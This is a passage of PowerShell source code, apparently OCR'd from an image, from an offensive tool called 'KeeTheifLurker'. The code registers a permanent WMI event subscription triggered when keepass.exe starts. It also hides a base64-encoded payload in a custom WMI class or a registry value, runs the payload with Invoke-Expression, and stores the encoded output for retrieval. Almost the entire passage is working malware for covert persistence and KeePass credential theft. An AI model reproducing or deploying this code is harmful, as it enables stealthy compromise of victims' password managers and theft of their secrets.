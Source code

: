             # Logic that is executed after the event is triggered.
            $ConsumerLogic= 
                "`$CustomClass = Get-WmiObject -Namespace $NamespaceName -class Win32_$ClassName -List;
                `$Payload = `$CustomClass.Properties['Content'].Value;
                `$Output = Invoke-Expression -Command `$([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(`$Payload)));
                `$OutputString = `$Output | Out-String;
                `$EncodedOutput = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes(`$OutputString));
                `$CustomClass.Properties.Add('Output', `$EncodedOutput);
                `$CustomClass.Put() | Out-Null"

            # Registering WMI event
            Register-PSWmiEvent -EventName $EventName -PermanentCommand $ConsumerLogic -Trigger ProcessStart -ProcessName keepass.exe | Out-Null
            Write-Verbose "WMI KeeTheifLurker '$EventName' Created."

            # Cleanup command construction
            $CleanupParameters = [System.Collections.ArrayList]@()
            if($NamespaceName -ne 'Software'){
                [void]$CleanupParameters.Add('-NamespaceName') 
                [void]$CleanupParameters.Add($NamespaceName)
            }
            if($ClassName -ne 'WindowsUpdate'){
                [void]$CleanupParameters.Add('-ClassName')
                [void]$CleanupParameters.Add($ClassName)
            }
            Write-Verbose "Cleanup Command: "
            Write-Verbose "Remove-TemplateLurker -EventName $EventName -WMI $($CleanupParameters)"
        }
       'Registry'{
        
            # Checking if provided registry path exists. It is created if it doesn't
            if (!$RegistryPath){New-Item -Path $RegistryPath -Force | Out-Null}

            # Create value that will hold KeeThief logic
            New-ItemProperty -Path $RegistryPath -Name $PayloadValueName -Value $Payload -PropertyType MultiString -Force | Out-Null
            Write-Verbose "Registry Value $RegistryValueName Created At $RegistryPath"

            # Logic that is executed after the event is triggered
            $ConsumerLogic=
                "`$RegistryPath = '$RegistryPath';
                `$Payload = `$(Get-ItemProperty -Path `$RegistryPath -Name $PayloadValueName).$PayloadValueName;
                `$Output = Invoke-Expression -Command `$([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(`$Payload)));
                `$OutputString = `$Output | Out-String;
                `$EncodedOutput = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes(`$OutputString));
                New-ItemProperty -Path `$RegistryPath -Name $OutputValueName -Value `$EncodedOutput -PropertyType MultiString -Force | Out-Null"
